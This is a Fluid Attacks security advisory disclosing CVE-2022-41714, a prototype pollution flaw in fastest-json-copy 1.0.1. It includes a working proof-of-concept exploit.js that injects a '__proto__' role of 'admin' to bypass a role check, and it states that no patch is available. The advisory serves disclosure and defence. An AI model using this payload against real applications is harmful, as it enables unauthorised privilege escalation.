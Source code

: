 ```yaml
---
slug: advisories/guetta/
title: fastest-json-copy 1.0.1 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: guetta
product: fastest-json-copy 1.0.1 - Prototype Pollution
date: 2022-10-19 01:30 COT
cveid: CVE-2022-41714
severity: 7.3
description: fastest-json-copy 1.0.1    -    Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, Fastest Json Copy, Prototype Pollution
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | fastest-json-copy 1.0.1 - Prototype Pollution                      |
| **Code name**         | [Guetta](https://en.wikipedia.org/wiki/David_Guetta)               |
| **Product**           | fastest-json-copy                                                  |
| **Affected versions** | Version 1.0.1                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-19                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41714)                                             |

## Description

Version 1.0.1 of fastest-json-copy allows an external attacker to edit
or add new properties to an object. This is possible because the
application does not correctly validate the incoming JSON keys, thus
allowing the `__proto__` property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when
a third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so,
then it calls it. If not, it looks in the object's prototype. If the
method/attribute is also not in the object's prototype, then the
property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property
into an object, he will succeed in injecting or editing its properties.

## Exploitation

### exploit.js

```js
const copy = require('fastest-json-copy');

let admin = {name: "admin", role:"admin"};
let user  = {name: "user" , role:"user"};

let normal_user_request    = JSON.parse('{"name":"user","role":"admin"}');
let malicious_user_request = JSON.parse('{"name":"user","__proto__":{"role":"admin"}}');

const create_user = (new_user) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    if(new_user?.role && new_user?.role.toLowerCase() === "admin") {
        throw "Unauthorized Action";
    }
    user = copy.copy(new_user);
    console.log(user);
}

try {
    create_user(normal_user_request);
} catch (error) {
    console.log(error);
}
finally {
    create_user(malicious_user_request);
}
```

## Evidence of exploitation

![Prototype-Pollution](https://user-images.githubusercontent.com/51862990/196764953-0bfa69f8-8ccc-4b74-8ae1-4fbad55efd48.png)

## Our security policy

We have reserved the CVE-2022-41714 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: fastest-json-copy 1.0.1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/streamich/fastest-json-copy>

## Timeline

<time-lapse
  discovered="2022-10-06"
  contacted="2022-10-06"
  replied="2022-10-06"
  confirmed=""
  patched=""
  disclosure="2022-10-19">
</time-lapse>
